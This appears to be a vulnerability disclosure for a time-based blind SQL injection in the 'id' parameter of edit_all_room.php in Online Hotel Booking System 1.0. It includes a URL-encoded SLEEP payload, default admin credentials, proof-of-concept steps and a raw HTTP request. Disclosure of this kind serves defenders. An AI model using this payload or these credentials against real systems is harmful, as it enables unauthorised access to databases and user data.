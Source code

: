 # Online Hotel Booking System edit_all_room.php id SQL inject

   
#### Exploit Title: Online Hotel Booking System edit_all_room.php id SQL inject
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://projectworlds.in/free-projects/php-projects/2777-2/
#### Software Link: https://projectworlds.in/wp-content/uploads/2019/06/hotel-booking.zip
#### Version: Online Hotel Booking System 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Online Hotel Booking System does not filter the content correctly at the "edit_all_room.php" id module, resulting in the generation of SQL injection.

#### Payload used:
`%27%20AND%20(SELECT%203766%20FROM%20(SELECT(SLEEP(5)))BmIK)%20AND%20%27YLPl%27=%27YLPl`

#### Proof of Concept

1. Login the CMS. 
Admin Default Access:
Email: admin
Password: 12345

1. Open Page http://172.24.5.107/admin.php

2. Put SQL injection payload  (`/edit_all_room.php?id=2828%27%20AND%20(SELECT%203766%20FROM%20(SELECT(SLEEP(5)))BmIK)%20AND%20%27YLPl%27=%27YLPl`) in the id content and click on Enter to publish the page,Viewing the successfully sleep 5 seconds.
![image](https://user-images.githubusercontent.com/60683449/176632581-9464da7d-6030-41b9-84ff-294c1ac20dab.png)



3. Html Request Code
```GET /edit_all_room.php?id=28 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: no-cache
Connection: keep-alive
Cookie: PHPSESSID=i91fftap2j41ojamv49897fe27; ci_session=3eug5e2ddfbg0kf7vmme4m13g3n76evs
Host: 172.24.5.107
Pragma: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64)
```
4. sqlmap data:
![image](https://user-images.githubusercontent.com/60683449/176632604-e27bfd57-b4bf-4289-ade5-1e9cee777481.png)

